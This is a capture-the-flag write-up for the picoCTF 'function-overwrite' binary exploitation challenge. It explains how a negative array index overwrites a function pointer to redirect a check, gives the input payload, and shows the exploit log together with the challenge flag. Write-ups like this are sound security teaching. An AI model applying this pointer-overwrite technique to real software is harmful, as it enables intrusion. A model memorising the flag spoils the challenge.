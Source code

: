 # function-overwrite

Array Out-of-bounds Exploit

## checksec

```bash
[*] '/mnt/d/CTFs/picoCTF/Pwn/function-overwrite/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

PIE is not enabled, so the addresses of `easy_checker` and `hard_checker` do not change per runtime. 

## Concept

The concept is to overwrite the function call to `hard_checker` (which is impossible to pass) with that to `easy_checker`. 

This is possible before the pointer to the text segment is not in the text segment - it is in the read- and writeable data segment, and loaded in (to `esi`) before the call. 

## Performing the Pointer Overwrite

Notice the following declarations in [`vuln.c`](./vuln.c)

```c
void (*check)(char*, size_t) = hard_checker;
int fun[10] = {0};
```

Due to the order in which they are declared, the 4-byte function pointer is stored before (at a lower address than) the integer array `fun`. Using gdb, we see that it starts 64 bytes before the start of `fun`.  

We also have a way of writing to negative array indexes of `fun`, which is contained in the `vuln` function

```c
printf("Tell me a story and then I'll tell you if you're a 1337 >> ");
scanf("%127s", story);
printf("On a totally unrelated note, give me two numbers. Keep the first one less than 10.\n");
scanf("%d %d", &num1, &num2);

if (num1 < 10)
{
  fun[num1] += num2;
}
```

So we just need to pass in `-16` as `num1`, and `easy_checker - hard_checker` as `num2`. 

## Passing the Check

To pass the check, the sum of character ASCII values in `story` must equal 1337 (and it has to be over the entire length of `story`, so we can't leave any part uninitialized). We can achieve this with

```python
b'A' * 20 + b'%' * 1
```

since `1337 = 20 * 65 + 37`. 

## Flag

```bash
[+] Opening connection to saturn.picoctf.net on port 51330: Done
[*] hex(exe.symbols.easy_checker)='0x80492fc'
[*] hex(exe.symbols.hard_checker)='0x8049436'
[*] hex(easyminushard)='-0x13a'
b"You're 1337. Here's the flag.\n"
b'picoCTF{0v3rwrit1ng_P01nt3rs_cc9ab5fc}\n'
```
